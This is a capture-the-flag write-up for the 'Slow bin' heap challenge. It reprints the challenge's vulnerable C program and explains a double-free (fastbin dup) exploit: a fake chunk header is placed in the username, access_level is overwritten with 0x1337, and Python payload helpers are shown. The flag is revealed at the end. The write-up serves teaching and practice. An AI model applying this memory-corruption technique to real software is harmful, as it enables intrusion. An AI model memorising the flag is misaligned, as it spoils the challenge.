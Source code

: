 
# Slow bin

*Hard*

>### Description
>Typical heap challenge - malloc, free and flag...\
>`nc rivit.dev 10014`

## Solution

### Recon

When you connect to the server, you get this menu.

![menu](image.png)

It seems the program is doing something with malloc and then freeing the memory. The vulnerability probably has something to do with this.

First, get basic information about the program with `checksec`:
```
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x1fe000)
    RUNPATH:    b'.'
    Stripped:   No
    Debuginfo:  Yes
```

Now, lets look at the provided source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <malloc.h>
#include <unistd.h>
#include <stdint.h>

#define MAX_CHUNKS 6

struct User {
    char username[32];
    uint64_t access_level;
};

struct User user;

uint64_t read_num(){
    char input[32];
    memset(input, 0, sizeof(input));
    read(STDIN_FILENO, input, 0x1F);
    return strtoull(input, 0, 10);
}

void try_flag(){
    if(user.access_level != 0x1337){
        puts("Not so easy!");
        return;
    }

    FILE *f = fopen("./flag.txt", "rt");
    if (f == NULL){
        puts("Error reading flag");
        return;
    }

    char flag[64];
    fgets(flag, sizeof(flag), f);
    fclose(f);
    puts(flag);
}

void menu() {
    unsigned int idx = 0;
    char *chunks[MAX_CHUNKS];
    memset(chunks, 0, MAX_CHUNKS * sizeof(char *));

    printf("Username: ");
    memset(&user, 0, sizeof(struct User));
    read(STDIN_FILENO, user.username, sizeof(user.username));
    printf("Logged as %s", user.username);

    while(1){
        printf("\n1) malloc %u/%u\n", idx, MAX_CHUNKS);
        puts("2) free");
        puts("3) display flag");
        puts("4) quit");

        printf("> ");
        long c = read_num();

        switch (c)
        {
        case 1:
            if(idx >= MAX_CHUNKS){
                puts("Maximum requests reached");
                return;
            }

            printf("Size: ");
            uint64_t size = read_num();
            if(size > 120){
                puts("Max 120 bytes");
                break;
            }

            chunks[idx] = malloc(size);
            if(chunks[idx]){
                printf("Data: ");
                read(STDIN_FILENO, chunks[idx++], size);
            }else{
                puts("malloc failed");
            }
            break;

        case 2:
            printf("Index: ");
            uint64_t idx = read_num();
            if(idx >= MAX_CHUNKS){
                puts("Invalid chunk");
                break;
            }

            free(chunks[idx]);
            break;

        case 3:
            try_flag();
            break;

        case 4:
            return;

        default:
            puts("Invalid option");
            break;
        }
    }
}

int main(void){
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    menu();

        return 0;
}
```

We still have access to the memory pointer after we free the corresponding chunk. So this allows us to free memory that is already free. But we have to be carefull, because the program crashes when we free the same memory twice in a row.

When a block of memory is freed, the first 64 bits will become the address of the previously freed block of memory. (This creates the freelist, which is a singly-linked-list). 

### Exploit

So how exactly do we exploit this? Well, just follow these steps:
1. malloc memory with size x (index=0)
2. malloc memory with size y (index=1)
3. free memory from index 0
4. free memory from index 1
5. free memory from index 0
6. malloc memory with size x, with first 64 bits being the address of user.access_level-0x10 (index=2)
7. malloc memory with size y to fill the space (index=3)
8. malloc memory with size x, this overwrites step 6, and uses the malicious address as next free memory address (index=4)
9. malloc memory with size z to overwrite the user.access_level to 0x1337 (index=5)
10. Enter option 3 to read the flag

The part of memory where the user is stored looks something like this:
```
0x2040e0 <user>:        0x68686868      0x68686868      0x68686868      0x68686868
0x2040f0 <user+16>:     0x68686868      0x68686868      0x00000a68      0x00000000
0x204100 <user+32>:     0x00000000      0x00000000      0x00000000      0x00000000
```

But for us to succesfully write to this location, it must have some sort of header that contains the length. Note that the length will automatically be rounded up to the nearest 0x10 because it is a 64bit program. (And it will be +1 since it accounts for the termination byte)

`user.access_level` is stored on 0x204100 and it is 16 hex characters long (=64 bit). And to account for the header which is 0x10 bytes long, we will use 0x2040f0 (\<user+16\>) as the address in our payload.

We can see how the header+data will look like, with length of 0x21:
```
0x00000000      0x00000000      0x00000021      0x00000000
0x5a5a5a5a      0x5a5a5a5a      0x00000000      0x00000000
```

Luckily our username is stored right above the access_level. So our username must first have 16 characters, and then end in "0x00000000      0x00000000      0x00000021      0x00000000" to act as the *header* for the malloc.

So now I write a python script to exploit this.

These will be the payloads:
```python
username = b'a'*16 + b'\x00'*8 + b'\x21' + b'\x00'*7
payload1 = p64(0x2040f0)
payload2 = p64(0x1337)
```

I use these simple functions to step-by-step follow the exploit I explained above.
```python
def do_malloc(size, data):
        p.recvuntil(b'> ')
        p.sendline(b'1')
        p.recvuntil(b'Size: ')
        p.sendline(size)
        p.recvuntil(b'Data: ')
        p.sendline(data)

def do_free(i):
        p.recvuntil(b'> ')
        p.sendline(b'2')
        p.recvuntil(b'Index: ')
        p.sendline(i)
```

View the whole python file [here](./exploit.py).

<details>
<summary>Yes! We got the flag:</summary> 
CTFlearn{d0ubl3_fr33_f0r_th3_w1n}
</details>